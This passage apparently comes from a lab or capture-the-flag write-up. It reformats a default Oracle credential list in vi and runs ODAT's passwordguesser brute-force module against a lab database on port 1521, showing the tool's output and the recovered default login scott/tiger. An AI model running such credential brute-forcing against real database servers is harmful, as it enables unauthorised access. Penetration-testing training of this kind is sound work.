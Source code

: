 The username and passwords in this list are separated by a space instead of a forward slash (/). We’ll have to change it to forward slash so that the ODAT tool is able to parse the file. This can be done in vi using the following command.

```
:%s/ /\//g
```

Now that we have a proper list, we can use the `passwordguesser` module to brute force credentials.

```
odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/oracle_default_userpass.txt
```

It takes a lot of time (approx 20 minutes), but gets us the results.

```
┌──(darshan㉿kali)-[/opt/odat]
└─$ sudo odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/oracle_default_userpass.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521                                                                       
01:41:39 WARNING -: The line 'jl/jl/\n' is not loaded in credentials list: ['jl', 'jl', '']
01:41:39 WARNING -: The line 'ose$http$admin/invalid/password\n' is not loaded in credentials list: ['ose$http$admin', 'invalid', 'password']
The login brio_admin has already been tested at least once. What do you want to do:                                                        | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
a
The login brugernavn has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                                                             | ETA:  00:45:46 
[!] Notice: 'hr' account is locked, so skipping this username for password                                                                 | ETA:  00:39:36 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                                                              | ETA:  00:26:46 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                                                             | ETA:  00:20:36 
[!] Notice: 'dip' account is locked, so skipping this username for password                                                                | ETA:  00:19:50 
[!] Notice: 'system' account is locked, so skipping this username for password#####                                                        | ETA:  00:12:42 
[!] Notice: 'xdb' account is locked, so skipping this username for password############################                                    | ETA:  00:07:50 
[!] Notice: 'outln' account is locked, so skipping this username for password##################################                            | ETA:  00:06:03 
[+] Valid credentials found: scott/tiger. Continue...                   #############################################################      | ETA:  00:01:06 
100% |#####################################################################################################################################| Time: 00:28:32 
[+] Accounts found on 10.10.10.82:1521/sid:XE: 
scott/tiger  
```
